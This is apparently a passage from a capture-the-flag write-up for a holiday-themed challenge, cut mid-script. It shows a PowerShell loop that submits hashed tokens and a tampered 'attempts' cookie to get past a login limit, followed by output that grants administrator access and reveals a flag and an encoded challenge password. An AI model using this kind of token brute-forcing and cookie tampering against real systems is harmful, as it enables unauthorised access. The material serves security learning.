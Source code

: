 ```powershell
            Cookie = "token=$md5Sum; mfa_token=$mfaToken; attempts=11111111111111111111111111111111111111111111111"
        } -UseBasicParsing

        # Check if the response contains "ERROR: Access Denied" and suppress it
        if ($validationResponse.Content -notmatch "ERROR: Access Denied") {
            Write-Output "Validation Response for $md5Sum : $($validationResponse.Content)"
        }

    } catch {
        Write-Error "An error occurred while processing MD5 hash $($row.file_MD5hash): $_"
        continue
    }
}
```

Along the way I stumbled over a cookie named "attempts", which I just sat to a redicilous high value. The script output this: 
Output

```bash
Validation Response for 45ffb41c4e458d08a8b08beeec2b4652 : <h1>[+] Success, defense mechanisms deactivated.</h1><br>Administrator Token supplied, You are able to control the production and deployment of the snow cannons. May the best elves win: WombleysProductionLineShallPrevail</p>
Validation Response for 5f8dd236f862f4507835b0e418907ffc : <h1>[+] Success</h1><br><p>Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg==
```

